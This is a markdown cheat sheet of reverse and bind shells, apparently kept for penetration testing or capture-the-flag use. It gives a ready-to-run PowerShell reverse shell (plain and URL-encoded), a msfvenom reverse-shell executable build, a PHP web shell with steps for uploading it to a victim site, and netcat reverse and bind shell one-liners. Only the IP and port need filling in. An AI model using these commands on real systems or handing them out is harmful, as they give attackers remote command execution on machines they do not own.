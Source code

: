 # List of useful shells to keep on hand.

### If python is installed you can make the shell more stable.
* Use Python, Python2 or Python3 as required. ```python -c 'import pty; pty.spawn("/bin/sh")'```
* This allows access to terminal commands. ```export TERM=xterm```
* Background the shell using CTRL+Z. Then in your own terminal enter this ```stty raw -echo; fg``` to turn off terminal echo allowing access to tab autocompletes, the arrow keys, and Ctrl + C and foregrounds the shell.

### Powershell reverse shell. Just need to replace IP and PORT of your choice and copy into cmd.exe or another method of executing commands.
```
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<ip>',<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

### URL encoded reverse shell for Windows systens. IP and Port need to be changed.
```
powershell%20-c%20%22%24client%20%3D%20New-Object%20System.Net.Sockets.TCPClient%28%27<IP>%27%2C<PORT>%29%3B%24stream%20%3D%20%24client.GetStream%28%29%3B%5Bbyte%5B%5D%5D%24bytes%20%3D%200..65535%7C%25%7B0%7D%3Bwhile%28%28%24i%20%3D%20%24stream.Read%28%24bytes%2C%200%2C%20%24bytes.Length%29%29%20-ne%200%29%7B%3B%24data%20%3D%20%28New-Object%20-TypeName%20System.Text.ASCIIEncoding%29.GetString%28%24bytes%2C0%2C%20%24i%29%3B%24sendback%20%3D%20%28iex%20%24data%202%3E%261%20%7C%20Out-String%20%29%3B%24sendback2%20%3D%20%24sendback%20%2B%20%27PS%20%27%20%2B%20%28pwd%29.Path%20%2B%20%27%3E%20%27%3B%24sendbyte%20%3D%20%28%5Btext.encoding%5D%3A%3AASCII%29.GetBytes%28%24sendback2%29%3B%24stream.Write%28%24sendbyte%2C0%2C%24sendbyte.Length%29%3B%24stream.Flush%28%29%7D%3B%24client.Close%28%29%22
```

### msfvenom
* ```msfvenom -p <PAYLOAD> <OPTIONS>``` Standard syntax.
* ```<OS>/<arch>/<payload>``` Basic convention.
* ```msfvenom -p windows/x64/shell/reverse_tcp -f exe -o shell.exe LHOST=<listen-IP> LPORT=<listen-port>``` Windows x64 Reverse Shell in an exe format (staged).

### Simple example of a PHP reverse shell.
* Start you listener. ```nc -lvnp <PORT>```
* Save this to a file then upload to a viticim webpage. ```<?php echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>"; ?>```
* Within the address bar enter the following. ```<LOCATION OF FILE>/shell.php?cmd=nc <IP> <PORT> -e /bin/bash```

### Netcat shells.
```nc [options] [target address] [port(s)]```
* Listener ```nc -lvnp <PORT> -e /bin/bash```
* Connect via ```nc <IP> <PORT>```
* Or for a bind shell setup this listener on victim ```mkfifo /tmp/f; nc -lvnp <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f``` then use ```nc <IP> <PORT>``` from attacking terminal.

| Netcat Option | Description |
|---------------|-------------|
| -l | Starts Netcat in listen mode. The default mode is to act as a client. |
| -L | Starts Netcat in the Windows-only "listen harder" mode. This mode creates a persistent listener that starts listening again when the client disconnects. |
| -u | Starts Netcat in UDP mode. The default is to use TCP. |
| -p | Specifies the port that Netcat should start listening on in listen mode. In client mode, it specifies the source port. |
| -e | Specifies the program to execute when a connection is made. |
| -n | Tells Netcat not to perform DNS lookups for host names on the other end of the connection. |
| -z | Starts Netcat in zero I/O mode, which instructs it to send a packet without a payload. |
| -w <seconds> | Specifies the timeout value for connections. |
| -v | Starts Netcat in verbose mode. |
| -vv | Starts Netcat in very verbose mode. |
